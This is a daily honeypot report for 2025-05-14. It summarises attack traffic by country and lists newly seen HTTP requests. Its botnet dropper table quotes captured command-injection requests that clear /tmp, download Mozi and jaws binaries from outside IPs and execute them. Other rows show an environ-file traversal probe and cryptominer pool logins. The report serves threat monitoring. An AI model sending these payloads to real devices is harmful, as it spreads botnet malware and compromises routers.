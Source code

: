 ```yaml
---
title: "Report: 2025-05-14 "
date: 2025-05-14
desciption: "Report: 2025-05-14" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-14 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 19 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1098 requests were recorded during the day, originating from 5 different countries, with a peak of 215 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |
| FR               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                       |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 47.93.212.99    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsselfrep;chmod+777+/tmp/jawsselfrep;sh+/tmp/jaws.selfrep HTTP/1.1                                                         |
| 115.63.240.101  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                         |
| 156.212.104.100 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.135.194.174/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                   |
| 60.23.232.109   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://60.23.232.109:37651/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0  |
| 103.42.243.6    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.10.146.242:56641/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  69 |                     4 | GET /goform/formJsonAjaxReq HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  77 |                     3 | GET /@fs/proc/self/environ?raw?? HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 122 |                     1 | GET /OZGl HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 129 |                     1 | POST /api/user/binLookup?time=1747193185668050900 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 130 |                     1 | GET /api/bin/440393?time=1747193184575167987 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 131 |                     1 | GET /config/index?time=1747192974832206021 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 132 |                     1 | GET /9VWw HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 133 |                     1 | GET /Y6al HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 185 |                     1 | GET /socket.io/1/?t=1747236057213 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 187 |                     1 | GET /stalker_portal/c HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 193 |                     1 | HEAD /files.rar HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 207 |                     1 | GET /www/.git HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 217 |                     1 | GET /9Dop HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 218 |                     1 | GET /VHGx HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 251 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x224967iFVimMwZ41gfEG2S5aYTBPDMYwJ9LRJQyepwyggnfUYMgkdqAjB25N7JKCmmS3BqummF2gEbDNnAXBh513zxQqPdwE5\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |
| 252 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220x120dc7ce9f5d58d67c2d3c96da8e1a3b6d0fffbe\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 263 |                     1 | GET /cfg/test HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 270 |                     1 | CONNECT ipinfo.io:443 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 320 |                     1 | GET /CNzR HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   215 | BG                 |
|  1 |                   213 | US                 |
|  2 |                   147 | GB                 |
|  3 |                    66 | NL                 |
|  4 |                    62 | CH                 |
|  5 |                    50 | PL                 |
|  6 |                    49 | BE                 |
|  7 |                    42 | SC                 |
|  8 |                    35 | FR                 |
|  9 |                    33 | ES                 |
| 10 |                    24 | CN                 |
| 11 |                    18 | DE                 |
| 12 |                    13 | LT                 |
| 13 |                    13 | KR                 |
| 14 |                    12 | AZ                 |
| 15 |                    12 | SG                 |
| 16 |                    11 | PT                 |
| 17 |                     9 | NG                 |
| 18 |                     7 | GH                 |
| 19 |                     5 | RU                 |
| 20 |                     5 | TH                 |
| 21 |                     5 | JP                 |
| 22 |                     5 | IT                 |
| 23 |                     5 | UA                 |
| 24 |                     4 | BR                 |
| 25 |                     4 | CA                 |
| 26 |                     4 | IL                 |
| 27 |                     4 | TR                 |
| 28 |                     3 | VN                 |
| 29 |                     3 | ID                 |
| 30 |                     3 | IN                 |
| 31 |                     2 | HK                 |
| 32 |                     2 | TW                 |
| 33 |                     2 | IR                 |
| 34 |                     2 | CZ                 |
| 35 |                     2 | VE                 |
| 36 |                     2 | AU                 |
| 37 |                     1 | EG                 |
| 38 |                     1 | MD                 |
| 39 |                     1 | CY                 |
| 40 |                     1 | GE                 |
| 41 |                     1 | ZA                 |
